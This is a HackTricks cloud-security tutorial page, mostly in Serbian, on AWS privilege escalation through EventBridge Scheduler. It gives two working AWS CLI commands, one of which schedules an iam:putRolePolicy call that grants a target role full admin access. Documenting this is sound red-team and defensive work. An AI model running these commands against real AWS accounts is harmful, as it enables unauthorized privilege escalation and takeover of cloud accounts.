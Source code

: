# AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler se može koristiti za eskalaciju privilegija zakazivanjem poziva raznim AWS uslugama. Iskorišćavanjem svoje sposobnosti da poziva usluge na zakazanoj osnovi, korisnici sa dovoljnim dozvolama mogu eskalirati privilegije. Evo nekih od ključnih akcija koje EventBridge Scheduler može pokrenuti koristeći šablonske ciljeve:

- Lambda: lambda:InvokeFunction - Pozivanje Lambda funkcija prema rasporedu.
- CodeBuild: codebuild:StartBuild - Pokretanje AWS CodeBuild projekata.
- CodePipeline: codepipeline:StartPipelineExecution - Pokretanje AWS CodePipeline izvršenja.
- ECS: ecs:RunTask - Pokretanje ECS zadataka.
- EventBridge: events:PutEvents - Stavljanje događaja u EventBridge.
- Inspector: inspector:StartAssessmentRun - Pokretanje Amazon Inspector procena.
- Kinesis: kinesis:PutRecord - Stavljanje zapisa u Kinesis tokove.
- Firehose: firehose:PutRecord - Stavljanje zapisa u Firehose tokove isporuke.
- SageMaker: sagemaker:StartPipelineExecution - Pokretanje SageMaker izvršenja.
- SNS: sns:Publish - Objavljivanje poruka na SNS temama.
- SQS: sqs:SendMessage - Slanje poruka u SQS redove.
- Step Functions: states:StartExecution - Pokretanje izvršenja AWS Step Functions.

Ovo su samo neke od šablonskih akcija koje EventBridge Scheduler može izvesti. Međutim, korišćenjem univerzalnih ciljeva, može se pozvati mnogo drugih akcija širom AWS usluga. Univerzalni ciljevi omogućavaju šire API operacije izvan šablonske liste.

Više informacija o EventBridge Scheduler-u u:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `sts:AssumeRole`, `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Korisnici sa `sts:AssumeRole`, `iam:PassRole`, i `scheduler:CreateSchedule or scheduler:UpdateSchedule` dozvolama mogu eskalirati privilegije koristeći EventBridge Scheduler za pozivanje usluga koristeći ulogu sa višim privilegijama.

Sa ovim dozvolama, napadač može preuzeti ulogu sa povišenim privilegijama i proslediti tu ulogu EventBridge Scheduler-u prilikom kreiranja ili ažuriranja rasporeda. Raspored se može konfigurisati da izvrši bilo koju od prethodno navedenih akcija, kao što su pozivanje Lambda funkcija, pokretanje ECS zadataka, pokretanje CodePipeline izvršenja, ili bilo koja operacija od 270 AWS usluga koje podržava EventBridge Scheduler. Zakazivanjem ovih akcija, napadač bi mogao zloupotrebiti više privilegije za izvođenje neovlašćenih operacija širom AWS usluga.
\\

Na primer, mogli bi konfigurisati raspored da pozove Lambda funkciju koja je šablonska akcija:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
Pored šablonskih akcija servisa, možete koristiti univerzalne ciljeve u EventBridge Scheduler-u da pozovete širok spektar API operacija za mnoge AWS servise. Univerzalni ciljevi nude fleksibilnost da pozovete gotovo bilo koji API. Jedan primer može biti korišćenje univerzalnih ciljeva dodavanjem "AdminAccessPolicy", koristeći ulogu koja ima "putRolePolicy" politiku:
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## References

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
